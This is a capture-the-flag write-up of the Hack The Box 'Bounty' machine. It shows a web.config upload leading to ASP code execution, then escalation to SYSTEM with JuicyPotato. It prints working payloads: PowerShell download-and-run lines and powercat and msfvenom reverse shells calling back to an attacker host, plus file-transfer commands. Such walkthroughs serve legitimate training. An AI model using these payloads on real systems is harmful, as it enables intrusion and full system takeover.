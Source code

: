 # Bounty Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA bounty 10.10.10.93``

``80/tcp open  http    Microsoft IIS httpd 7.5``

``dirb http://10.10.10.93/ -w /usr/share/wordlists/dirb/common.txt``

``gobuster dir -u http://10.10.10.93 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 -x aspx,asp``

# ${{\color{purple}Initial Foothold}}\ $

### My goubster command allowed me to find the file /transfer.apsx which allows to upload on the server **:white_check_mark:**

``gobuster dir -u http://10.10.10.93 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 -x aspx,asp``

![1](https://user-images.githubusercontent.com/123066149/220401946-fe0162ee-df1e-464c-a47e-e15b6e1fbd5e.PNG)

# ${{\color{purple}Exploitation}}\ $ 

![image](https://user-images.githubusercontent.com/123066149/220402400-1e3f9ba5-fe23-4065-81c3-d6977054fde9.png)

### And the /UploadedFiles directory :

![image](https://user-images.githubusercontent.com/123066149/220402804-2b5b447c-7a21-4f48-85c5-606e5ccc6c37.png)

### I decided to bruteforce a valid extension for this file uploade forms :

![image](https://user-images.githubusercontent.com/123066149/220403441-8a066e40-36cd-4899-93ed-620cf87938ad.png)
![image](https://user-images.githubusercontent.com/123066149/220403611-c9f3b6cd-c12f-4c23-b15e-bc6e34d9c8b8.png)

### Load extension.txt i used hacktrycks to find the right extensions according to the type of server :

https://book.hacktricks.xyz/pentesting-web/file-upload

``ASP: .asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml``

![image](https://user-images.githubusercontent.com/123066149/220445347-d01adb51-b57f-45f5-b5b2-5ba5dbe30298.png)

### For this attack is important to find the extension that the server will accept. 
### It's with the length of the answer that I find the right extension.

![2](https://user-images.githubusercontent.com/123066149/220445721-12856fa5-e575-4748-a557-29699d739e19.PNG)

### After a little google search there are poc to get to a code execution :

![image](https://user-images.githubusercontent.com/123066149/220451259-7825fcf6-ea3f-4cfa-b8d8-73b249363af7.png)

### I used this code to try a RCE

https://soroush.secproject.com/blog/2019/08/uploading-web-config-for-fun-and-profit-2/

![image](https://user-images.githubusercontent.com/123066149/220451505-f2b8f383-ce2f-4ce5-be05-78bc5fd4bdc9.png)

![image](https://user-images.githubusercontent.com/123066149/220451628-36d207ce-e846-4ae6-8ec3-81c363893f38.png)

### I send the requests via burp 

![3](https://user-images.githubusercontent.com/123066149/220452408-7c694ce9-90d2-4ed8-a37e-c3764b386dc9.PNG)

![4](https://user-images.githubusercontent.com/123066149/220452416-ef897977-6cd4-4e3a-b9c0-8a9224029ef0.PNG)

### The number 15 is there so there is a code execution now I have to change the ASP code :
### I use the code of the web.aspx console and I test the code execution on my computer with the ping command :

``cat web.aspx``

![image](https://user-images.githubusercontent.com/123066149/220453123-12652682-7e90-40c2-a123-6101beb1cf30.png)

![5](https://user-images.githubusercontent.com/123066149/220457118-3740aaee-d196-4c38-8d9d-094bd45befb3.PNG)

![6](https://user-images.githubusercontent.com/123066149/220457157-ef6027ee-106f-447a-8f5b-6e0bead9e242.PNG)

![image](https://user-images.githubusercontent.com/123066149/220456517-e4e8fe26-5504-4111-acd1-d96f20dfbe39.png)

### Now I have to adapt the payload :

``<%``

``Set s = CreateObject("WScript.Shell")``

``Set cmd = s.Exec ("cmd.exe /c powershell.exe -c IEX(New-Object Net.WebClient).downloadString('http://10.10.16.5:80/Invoke-PowerShellTcp.ps1')")``

``o = cmd.StdOut.Readall()``

``Response.write(o)``

``Response.write(1+2)``

``%>``



``Set cmd = s.Exec ("cmd.exe /c powershell.exe -c IEX(New-Object Net.WebClient).downloadString('http://10.10.16.5:80/Invoke-PowerShellTcp.ps1')")``

### OR 

``Set cmd = s.Exec("cmd.exe /c powershell.exe -c IEX(New-Object Net.WebClient).downloadString('http://10.10.16.5:80/Nishangrev.ps1')")``


![image](https://user-images.githubusercontent.com/123066149/220458571-e8616ef9-0daf-4c41-9e7a-8ae8944032b1.png)


![image](https://user-images.githubusercontent.com/123066149/220458631-54bdde53-e959-45c0-90f3-4c6b30c47538.png)


# ${{\color{purple}Privilege Escalation}}\ $

### After a small enumeration it is possible to notice that we have rights :

``SeChangeNotifyPrivilege``

``SeImpersonatePrivilege``

![image](https://user-images.githubusercontent.com/123066149/220458967-5c686876-5ccb-4a0d-b762-ac645dfe55b2.png)


### I decide to redirect the shell to a classical cmd shell because the porwershell shell prevents me from executing binaries 
### For this I use powercat:

``IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.16.5:80/powercat.ps1');powercat -c 10.10.16.5 -p 4444 -e cmd.exe``

![image](https://user-images.githubusercontent.com/123066149/220460046-bbfdde15-e010-4355-8b1d-ea52562a1bca.png)

### I used FTP/WGET/powershell Invoke-WebRequest : but nothing worked for the download of my tools the only solution that works is the SMB share :

-----------FTP------------------
``echo open 10.10.16.5 21> ftp.txt``

``echo USER offsec>> ftp.txt``

``echo lab>> ftp.txt``

``echo bin>> ftp.txt``

``echo GET Juicy_Potato_x86.exe>> ftp.txt``

``echo bye>> ft4.txt``

``ftp -v -n -s:ftp.txt``

-----------PowerShell------------------

``powershell Invoke-WebRequest -Uri http://10.10.16.5:80/nc.exe -OutFile C:\Users\Public\Downloads\nc.exe``

-----------WGET------------------

``wget "http://10.10.16.5:80/nc.exe" -outfile "nc.exe"``

-----------SMBSERVER-IMPACKET------------------

``/usr/bin/impacket-smbserver kali .``

![image](https://user-images.githubusercontent.com/123066149/220461207-fef86ba1-5d0b-431d-86f1-add5683ec68d.png)

``msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.5 LPORT=4321 -f exe -o exploit.exe``

![image](https://user-images.githubusercontent.com/123066149/220463126-0a99d74d-bd0d-4b6b-8fac-d314f06ae337.png)

### I use this command to copy the binaries to the machine :

``copy \\10.10.16.5\kali\exploit.exe``

``copy \\10.10.16.5\kali\JuicyPotato.exe``

![image](https://user-images.githubusercontent.com/123066149/220463530-b6a46bda-37d1-49ca-9a77-450d357525ed.png)

``JuicyPotato.exe -l 1337 -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}" -t * -p whoami``

``JuicyPotato.exe -l 1337 -c "{659cdea7-489e-11d9-a9cd-000d56965251}" -p c:\Users\merlin\Desktop\exploit.exe  -t *``

![7](https://user-images.githubusercontent.com/123066149/220464952-ac63e66e-e994-4ade-9be4-abfb27857c86.PNG)

![8](https://user-images.githubusercontent.com/123066149/220464961-8763b403-3f63-45e6-bc86-b1b801f9e542.PNG)

# ${{\color{purple}Points of Improvement}}\ $
